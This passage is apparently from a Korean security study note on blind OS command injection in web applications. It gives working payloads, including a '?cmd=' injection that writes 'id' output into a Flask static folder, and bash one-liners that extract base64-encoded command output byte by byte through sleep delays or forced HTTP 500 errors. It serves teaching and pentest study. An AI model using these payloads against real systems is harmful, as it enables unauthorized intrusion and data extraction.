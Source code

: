                     - ```static``` 디렉터리를 생성하지 않은 상황에서도 OS 명령어를 통해 ```static``` 디렉터리를 생성한 후 해당 디렉터리 내에 파일을 생성하여 확인할 수 있음 <br/> (프레임워크가 동작하는 디렉터리에 대한 생성 권한이 존재해야만 디렉터리 생성이 가능함)
            - 예시: 파이썬 Flask 프레임워크의 Static File Directory(```static```)
                ```
                /?cmd=mkdir static; id > static/result.txt
                ```
                + OS 명령어(```mkdir```)를 통해 ```static``` 디렉터리를 생성한 후 ```id``` 명령어의 실행 결과를 ```result.txt``` 파일을 생성 후 저장함 <br/> &nbsp;&nbsp; → ```static/result.txt``` 페이지를 방문하면 실행 결과를 확인할 수 있음 

<br/>

* Network In/Out Bound의 제한이 걸려 있고 파일로 출력 값을 리다이렉션시켜 결과를 확인할 수 없을 때 사용할 수 있는 방법 <br/> &nbsp;&nbsp; → ⚠️ 공격 대상 서버에서 네트워크 방화벽 규칙을 적용해 In/Out Bound이 막혀 있고 파일로 출력을 리다이렉션할 수 없으면 **참/거짓 판별**로 데이터룰 추출해야 함
    - **지연 시간**(Sleep): 비교하는 값이 참일 경우 ```sleep``` 명령어를 실행해 지연시간을 발생시켜 웹 애플리케이션에서 반환하는 속도를 이용하여 데이터를 획득함
        + 명령어의 결과를 base64로 인코딩한 값을 한 바이트씩 비교하여 지연 발생 여부(참/거짓)을 통해 데이터를 알아냄
        + 예시
            - [1] ```id``` 명령어의 실행 결과를 ```base64``` 명령어를 이용해 base64로 인코딩함 
                ```linux
                $ id
                uid=33(www-data) gid=33(www-data) groups=33(www-data)

                $ id | base64 -w 0
                dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
                ```
            - [2] 인코딩하여 나온 값을 한 바이트씩 비교하는 Bash 스크립트를 작성함 <br/> &nbsp;&nbsp; → 참이면 ```sleep``` 명령어로 서버 응답을 지연시키고, 거짓이면 스크립트를 종료함
                ```bash
                bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then sleep 2; fi;" # 결과: 2초 지연 발생 (true) → 첫번째 문자 d
                bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then sleep 2; fi;" # 결과: 2초 지연 발생(true) → 두번째 문자 W
                bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then sleep 2; fi;" # 결과: 지연 발생 X (false)
                bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then sleep 2; fi;" # 결과: 2초 지연 발생(true) → 세번째 문자 l
                ```
    - **에러**(DoS): 비교하는 값이 참일 경우 시스템 에러(Internal Server Error, HTTP 500)을 발생시켜 에러 반환 여부를 통해 데이터를 획득하는 방법
        + ```sleep``` 명령을 사용할 수 없거나, 시간 지연을 확실히 판별하기 어려운 경우에 사용함
        + HTTP 500 에러(Internal Server Error)를 인위적으로 발생시키는 방법은 다양하지만, 간단한 방법으로는 ```cat /dev/urandom``` 명령어가 있음
        + 예시
            - [1] ```id``` 명령어의 실행 결과를 ```base64``` 명령어를 이용해 base64로 인코딩함
                ```linux
                $ id
                uid=33(www-data) gid=33(www-data) groups=33(www-data)

                $ id | base64 -w 0
                dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
                ```
            - [2] 인코딩하여 나온 값을 한 바이트씩 비교하는 Bash 스크립트를 작성함 <br/> &nbsp;&nbsp; → 500(서버 측 에러, Internal Server Error)이면 참, 그 외의 200(성공, Success)과 같은 값이라면 거짓으로 판단함
                ```bash
                bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (첫번째 문자 d)
                bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (두번째 문자 W)
                bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then cat /dev/urandom; fi;" # 결과: 200(성공) → false
                bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then cat /dev/urandom; fi;" # 결과: 500(서버 측 에러) → true (세번재 문자 l)
                ```
